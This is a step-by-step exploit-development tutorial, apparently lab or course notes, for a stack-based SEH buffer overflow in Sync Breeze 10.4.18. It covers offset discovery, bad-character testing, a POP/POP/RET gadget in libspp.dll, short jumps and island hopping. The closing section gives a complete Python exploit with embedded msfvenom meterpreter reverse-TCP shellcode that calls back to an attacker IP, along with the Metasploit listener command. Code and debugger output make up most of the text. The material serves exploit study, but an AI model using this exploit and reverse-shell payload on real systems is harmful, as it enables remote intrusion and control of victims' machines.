SEH overflow is a type of buffer overflow where we overwrite the Exception Registration Record stored on the stack. 
When a crash occurs, Windows uses Structured Exception Handling to walk the SEH chain starting from the TEB. 
Since we control the overwritten handler, execution is redirected to our controlled address, allowing us to hijack execution flow.



Overflow → overwrite SEH chain → trigger crash → Windows calls our handler → we control execution


## CRASH THE PROGRAM

As we need to the trigger the windows exception handler, we need to send larger buffer to trigger the handler.

```python
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = "192.168.176.10"
  port = 9121
  crash = 1000

  inputBuffer = b"A" * crash

  ## HEADER
  header =  b"\x75\x19\xba\xab"
  header += b"\x03\x00\x00\x00"
  header += b"\x00\x40\x00\x00"
  header += pack('<I', len(inputBuffer))
  header += pack('<I', len(inputBuffer))
  header += pack('<I', inputBuffer[-1])

  buffer = header + inputBuffer 

  print(f"[+] Sending {len(buffer)} bytes.....")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  s.send(buffer)
  s.close()
  
  print("HACK THE PLANET") 

except socket.error:
  print("Could not connect!")
```


Attach the sync breeze v.10.4.18 to the debugger and start the debuggee.....send the exploit !





At first , our exploit triggered the first exception ; so it stopped , analyzing further via the `!exchain` we find that the chain that triggered the exception was our AAAA ; so `g` continuing the program leads the instruction pointer i.e EIP=41414141. 

In simple terms , SEH Overflows are stack overflows either large enough or placed correctly at Nseh. Its like , we send random crash at first , then windows triggers the exception chain and if the first exception handler cannot  handle , transfers to the next then to the final one which crashes the program...So our main idea is to trigger the first exception and control the next seh so we control the execution!


## FINDING THE OFFSET

As usual we send the pattern of 1000bytes to the program to check exactly our exact crash i.e the seh and the nseh as the input Buffer.

```
msf-pattern_create -l 1000
```

```python
inputBuffer = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B"
```




Now, Lets find the offset for nseh and seh.



So exactly after the 124 bytes we trigger the exception handler i.e seh chain and 128th byte is our nseh which we need to control. So Lets control the exception.....


```python
  inputBuffer = b"A" * 124
  inputBuffer += b"B" * 4  # nseh
  inputBuffer += b"C" * 4  # seh
  inputBuffer += b"D" * (crash -len(inputBuffer))
```




So Here, We triggered the exception after 124 A's i.e B's which  EIP is pointing right now ; then the next handler nseh is 42424242. Cool. Now we know exact offsets to trigger and control the program. Next step is to find out the Bad Characters.


## BAD CHARACTERS

To determine Bad Chars --> we send all the possible hex-values ; repeat until we find the chars. to avoid !
1. Send all the hex char as buffer  --> crash the program ; 


```python
  bad_chars = (
    b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c"
    b"\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19"
    b"\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
    b"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33"
    b"\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d"
    b"\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a"
    b"\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67"
    b"\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74"
    b"\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
    b"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e"
    b"\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b"
    b"\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8"
    b"\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5"
    b"\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
    b"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
    b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc"
    b"\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9"
    b"\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6"
    b"\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

  inputBuffer = b"A" * 124
  inputBuffer += b"B" * 4  # nseh
  inputBuffer += b"C" * 4  # seh
  inputBuffer += bad_chars
  inputBuffer += b"D" * (crash -len(inputBuffer))
```


`> g` continue

`> db esp L1200` up or down the value until you find your chars...



We see that only 01 passed then our its truncated ... Either we find the truncated characters or its our fucking bad day. 

So remove \x02 , \x0a and \x0d [Default] , And Repeat the process until we find all the bad characters.....




Now we find out , When going through these characters we will need to remove, or comment out, those characters we know are valid because our buffer is not big enough to fit all if them. So to mitigate this, we can send smaller batches of bad characters.

So, We comment out the top 10 lines which we checked and send the next batch of bad chars....

```python
  bad_chars = (
    #b"\x01\x03\x04\x05\x06\x07\x08\x09\x0b\x0c"
    #b"\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19"
    #b"\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
    #b"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33"
    #b"\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    #b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d"
    #b"\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a"
    #b"\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67"
    #b"\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74"
    #b"\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
    b"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e"
    b"\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b"
    b"\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8"
    b"\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5"
    b"\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
    b"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
    b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc"
    b"\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9"
    b"\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6"
    b"\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```



All the rest of the characters passed the test. So out bad characters are:

```
\x00,\x02\x0a\x0d
```


## FINDIND POP POP RETURN

To redirect the execution flow to our buffer, we need to find a P/P/R instruction sequence

The most common way to bypass the SafeSEH protection is to leverage the POP R32, POP R32, RET instruction sequence from a module that was compiled without the /SAFESEH flag.

Lets find all the loaded modules and their memory protections in this binary.


```
> .load narly

> !nmod
```




As we need to make this exploit compatible , we need to use the modules that comes with the binary which doesnt contain the bad character. So the perfect one is libspp.dll.

Now to find where's pop pop return is in this loaded module. We can find this 3 ways , build the script to find every possible combo within the windbg ; or with rp/rp++ ; or manually like we find the jmp esp in vanilla stack overflow...


1. Manual Way 

```
0:001> s -b 10000000 10226000 58 5B C3   [Where 58 - pop eax ; 5B - pop ebx ; C3 - ret ]
```





2. Building Own Script - Offsec Method

We need to avoid the use of a "pop esp" instruction as it would set the stack pointer to an arbitrary address, which would completely disrupt the stack frame.

```
$ msf-nasm_shell 
nasm > pop eax
00000000  58                pop eax
nasm > pop ebx
00000000  5B                pop ebx
nasm > pop ecx
00000000  59                pop ecx
nasm > pop edx
00000000  5A                pop edx
nasm > pop esi
00000000  5E                pop esi
nasm > pop edi
00000000  5F                pop edi
nasm > pop ebp
00000000  5D                pop ebp
nasm > ret
00000000  C3                ret
```


```
.block
{
	.for (r $t0 = 0x58; $t0 < 0x5F; r $t0 = $t0 + 0x01)
	{
		.for (r $t1 = 0x58; $t1 < 0x5F; r $t1 = $t1 + 0x01)
		{
			s-[1]b 10000000 10226000 $t0 $t1 c3
		}
	}
}
```

Simply, This script check for the possible P/P/R instructions....Just replace the memory addresses .....

Then save the script  as a **.wds** file, and run the script with `$><` command.

```
0:000> $><C:\Users\offsec\Desktop\ppr.wds
0x1015a2f0
0x100087dd
0x10008808
0x1000881a
0x10008829
0x1001bb8a
0x1001bc1f
0x100491e4
...
```


The script returns a list of memory addresses from the **libspp.dll** module. We'll select the first returned address (0x1015a2f0) and confirm that it points to a P/P/R instruction sequence.

```
0:009> u 1015a2f0 L3
libspp!pcre_exec+0x16460:
1015a2f0 58              pop     eax
1015a2f1 5b              pop     ebx
1015a2f2 c3              ret
```


3. rp / rp++ [link](https://github.com/0vercl0k/rp) 
Which we gonna explore when finding the rop gadgets ; 

Good. Now that we have obtained a valid memory address for our P/P/R instruction sequence, let's update our proof of concept and try to overwrite the instruction pointer with it:

```python
  inputBuffer = b"A" * 124
  inputBuffer += b"B" * 4  # nseh
  inputBuffer += pack("<L", 0x1015a2f0) # seh
  inputBuffer += b"D" * (crash -len(inputBuffer))
```


We again trigger the access violation:




Inspecting the exception chain , we find that we have successfully overwritten the structured exception handler with the memory address of our POP, POP, RET instruction sequence.

At this point, we want to set up a software breakpoint at the address of our P/P/R sequence and let the debugger go to handle the exception. This should redirect the execution flow and hit our breakpoint.



Now single step to the debugger ; we are redirected to our controlled buffer B's.


## SHORT JUMP

As we are in our controlled buffer area B's ; but we only got 4 bytes of space available ; We cannot upload any of our payloads there's.

So we overcome this by using the first four bytes of the _Next_ structure exception handler (NSEH) to assemble an instruction that will jump over the current SEH and redirect us into our fake shellcode located after the P/P/R address. This is known as a "short jump" in assembly.

```
In assembly, short jumps are also known as short relative jumps. These jump instructions can be relocated anywhere in memory without requiring a change of opcode. The first opcode of a short jump is always 0xEB and the second opcode is the relative offset, which ranges from 0x00 to 0x7F for forward short jumps, and from 0x80 to 0xFF for backwards short jumps.
```
 



Simply, We are jumping  from small buffer area to relatively bigger buffer space.

```
0:009> dds eip L4
01aaff54  42424242
01aaff58  1015a2f0 libspp!pcre_exec+0x16460
01aaff5c  44444444
01aaff60  44444444

0:009> a
01aaff54 jmp 0x01aaff5c
jmp 0x01aaff5c
01aaff56 

0:009> u eip L1
01aaff54 eb06            jmp     01aaff5c
```





Now, We find the offset for the jump is six bytes rather than four (the length of the P/P/R address). Lets update our exploit.

```
  inputBuffer = b"A" * 124
  inputBuffer += pack("<L", 0x06eb9090) # nseh  # jump 6 bytes
  inputBuffer += pack("<L", 0x1015a2f0) # seh
  inputBuffer += b"D" * (crash -len(inputBuffer))
```

After the first exception hits , we set our break point to P/P/R instruction and  single step through until we reach our short jmp.



Perfect ! We jumped and land at our controlled buffer. But closely inspecting the register we find that we are close to reach the beginning of our stack and not have much space for our shellcode i.e the reverse shell.




## ISLAND HOPING

As we reached the beginning of our stack i.e the stack base ; we can not upload the shellcode in that space. So, Now we need to determine the offset from our current stack pointer to the beginning of our shellcode. This allows us to use the limited space we currently have to assemble a set of instructions that will allow us to "island hop", redirecting execution to our shellcode.

So lets upload our exploit with dummy shellcode and search in the stack where is our shellcode and increase the stack pointer followed by jmp esp to redirect us to our shellcode.


```python
  shellcode = b"C" * 400

  inputBuffer = b"A" * 124
  inputBuffer += pack("<L", 0x06eb9090) # nseh
  inputBuffer += pack("<L", 0x1015a2f0) # seh
  inputBuffer += b"\x90" * (crash -len(inputBuffer) -len(shellcode))
  inputBuffer += shellcode
```

After the first exception hits , we set our break point to P/P/R instruction and  single step through until we reach our first NOP after jumping the current SEH.




Cool ! Our Shellcode is right after the NOPS. Now check weather any bytes are truncated or not. Perfect None are truncated , Now we determine how many bytes we need to add to our current stack pointer to reach the shellcode.



Cool ! We need to add 3696 bytes to current stack pointer to reach the shellcode , and to reach there we also need the "jmp esp". i.e add 3696 bytes and jump to our fucking shellcode.

```
> !teb

> s -b [stack limit] [stack base] 90 90 90 90 43 43 43 43

> u [memory address] check the starting of the shellcode.

> ? [start of the shellcode i.e 43 43 43] - esp
```

Now Lets update our exploit ! For that we need opcodes.

```
└─# msf-nasm_shell                
nasm > add sp,3696
00000000  6681C4700E        add sp,0xe70
nasm > jmp esp
00000000  FFE4              jmp esp
```


```python
  shellcode = b"C" * 400
  inputBuffer = b"A" * 124
  inputBuffer += pack("<L", 0x06eb9090) # nseh
  inputBuffer += pack("<L", 0x1015a2f0) # seh
  inputBuffer += b"\x90" * 5 # adding nops so we slide smoothly....
  inputBuffer += b"\x66\x81\xC4\x70\x0E" # add sp,3696
  inputBuffer += b"\xff\xe4" #jmp esp
  inputBuffer += b"\x90" * (crash -len(inputBuffer) -len(shellcode))
  inputBuffer += shellcode
```

After the first exception hits , we set our break point to P/P/R instruction and  single step through until add instruction to check the stack alignment.






Cool ! We smoothly landed to our dummy shellcode and there's no any truncated bytes also we got enough space for our shellcode. Now the only step left is generate the shellcode and BOOM !




## OBTAINING REVERSE SHELL

Now Just generate the shellcode and customize the final exploit !

```
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.242 LPORT=1337 -b "\x00\x02\x0A\x0D" -f python -v shellcode
```

Final_Exploit.py

```python
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = "192.168.147.10"
  port = 9121
  crash = 1000

  ## SHELLCODE
  shellcode = b"\x90" * 20
  shellcode +=  b""
  shellcode += b"\xda\xde\xbb\x80\x71\x0e\x6f\xd9\x74\x24\xf4"
  shellcode += b"\x58\x2b\xc9\xb1\x59\x31\x58\x19\x03\x58\x19"
  shellcode += b"\x83\xe8\xfc\x62\x84\xf2\x87\xed\x67\x0b\x58"
  shellcode += b"\x91\xee\xee\x69\x83\x95\x7b\xdb\x13\xdd\x2e"
  shellcode += b"\xd0\xd8\xb3\xda\x63\xac\x1b\xd2\x8c\x5f\xeb"
  shellcode += b"\x5e\x55\x6e\xd3\xf3\xa5\xf1\xaf\x09\xfa\xd1"
  shellcode += b"\x8e\xc1\x0f\x10\xd6\x97\x7a\xfd\x8a\x70\x0e"
  shellcode += b"\x53\x3b\xf4\x52\x6f\x3a\xda\xd8\xcf\x44\x5f"
  shellcode += b"\x1e\xbb\xf8\x5e\x4f\x13\x8a\x39\x4f\x18\xc4"
  shellcode += b"\xa1\x8e\xcd\x50\x18\xe4\xcd\x13\xaa\xfa\xa6"
  shellcode += b"\x90\x47\x05\x6e\xe9\x97\xaa\x4f\xc5\x15\xb2"
  shellcode += b"\x88\xe2\xc5\xc1\xe2\x10\x7b\xd2\x31\x6a\xa7"
  shellcode += b"\x57\xa5\xcc\x2c\xcf\x01\xec\xe1\x96\xc2\xe2"
  shellcode += b"\x4e\xdc\x8c\xe6\x51\x31\xa7\x13\xd9\xb4\x67"
  shellcode += b"\x92\x99\x92\xa3\xfe\x7a\xba\xf2\x5a\x2c\xc3"
  shellcode += b"\xe4\x03\x91\x61\x6f\xa1\xc4\x16\x90\x39\xe9"
  shellcode += b"\x4a\x06\xf5\x24\x75\xd6\x91\x3f\x06\xe4\x3e"
  shellcode += b"\x94\x80\x44\xb6\x32\x56\xdd\xd0\xc4\x88\x65"
  shellcode += b"\xb0\x3a\x29\x95\x98\xf8\x7d\xc5\xb2\x29\xfe"
  shellcode += b"\x8e\x42\xd5\x2b\x3a\x49\x41\x14\x12\x60\x63"
  shellcode += b"\xfc\x60\x7b\x86\xc4\xed\x9d\xd8\x66\xbd\x31"
  shellcode += b"\x99\xd6\x7d\xe2\x71\x3d\x72\xdd\x62\x3e\x59"
  shellcode += b"\x76\x08\xd1\x37\x2e\xa5\x48\x12\xa4\x54\x94"
  shellcode += b"\x89\xc0\x57\x1e\x3b\x34\x19\xd7\x4e\x26\x4e"
  shellcode += b"\x80\xb0\xb6\x8f\x25\xb0\xdc\x8b\xef\xe7\x48"
  shellcode += b"\x96\xd6\xcf\xd6\x69\x3d\x4c\x10\x95\xc0\x64"
  shellcode += b"\x6a\xa0\x56\xc8\x04\xcd\xb6\xc8\xd4\x9b\xdc"
  shellcode += b"\xc8\xbc\x7b\x85\x9b\xd9\x83\x10\x88\x71\x16"
  shellcode += b"\x9b\xf8\x26\xb1\xf3\x06\x10\xf5\x5b\xf9\x77"
  shellcode += b"\x85\x9c\x05\x05\xa2\x04\x6d\xf5\xf2\xb4\x6d"
  shellcode += b"\x9f\xf2\xe4\x05\x54\xdc\x0b\xe5\x95\xf7\x43"
  shellcode += b"\x6d\x1f\x96\x26\x0c\x20\xb3\xe7\x90\x21\x30"
  shellcode += b"\x3c\x23\x5b\x39\xc3\xc4\x9c\x53\xa0\xc5\x9c"
  shellcode += b"\x5b\xd6\xfa\x4a\x62\xac\x3d\x4f\xd1\xbf\x08"
  shellcode += b"\xf2\x70\x2a\x72\xa0\x83\x7f"
  shellcode += b"\x43" * (400 -len(shellcode))


  ## PAYOAD
  inputBuffer = b"A" * 124
  inputBuffer += pack("<L", 0x06eb9090) # nseh
  inputBuffer += pack("<L", 0x1015a2f0) # seh
  inputBuffer += b"\x90" * 5 # adding nops so we slide smoothly....
  inputBuffer += b"\x66\x81\xC4\x70\x0E" # add sp,3696
  inputBuffer += b"\xff\xe4" #jmp esp
  inputBuffer += b"\x90" * (crash -len(inputBuffer) -len(shellcode))
  inputBuffer += shellcode


  ## HEADER
  header =  b"\x75\x19\xba\xab"
  header += b"\x03\x00\x00\x00"
  header += b"\x00\x40\x00\x00"
  header += pack('<I', len(inputBuffer))
  header += pack('<I', len(inputBuffer))
  header += pack('<I', inputBuffer[-1])

  buffer = header + inputBuffer 

  print(f"[+] Sending {len(buffer)} bytes.....")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  s.send(buffer)
  s.close()
  
  print("HACK THE PLANET") 

except socket.error:
  print("Could not connect!")

```


Start the Listener and send the final bomb created by your own fucking hand.....

```
└─# msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.45.242; set LPORT 1337; exploit"
```

